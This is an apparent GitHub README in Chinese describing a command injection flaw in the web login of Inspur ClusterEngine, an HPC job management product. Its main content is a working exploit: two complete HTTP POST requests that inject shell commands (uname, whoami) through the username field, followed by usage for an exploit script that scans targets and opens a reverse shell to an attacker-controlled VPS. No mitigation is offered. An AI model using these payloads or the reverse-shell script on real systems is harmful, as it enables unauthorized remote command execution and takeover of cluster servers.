




# 浪潮 ClusterEngine命令执行

## 漏洞简介

​	浪潮集群管理ClusterEngine是专门为浪潮天梭系列HPC产品定制的一款作业管理软件。在web登录界面，通过精心构造后的命令，可执行任意命令。造成命令执行漏洞

## 漏洞复现

POC

执行uname

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); $(uname)
```



执行whoami

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); `whoami`
```



## 脚本使用

使用帮助：

```bash
python3 exp --help
```



检测指定url是否存在漏洞

```bash
python3 exp.py -u http://host:port
```



反弹目标shell

```bash
python3 exp.py -u url -l vps-host -p vps-port
```


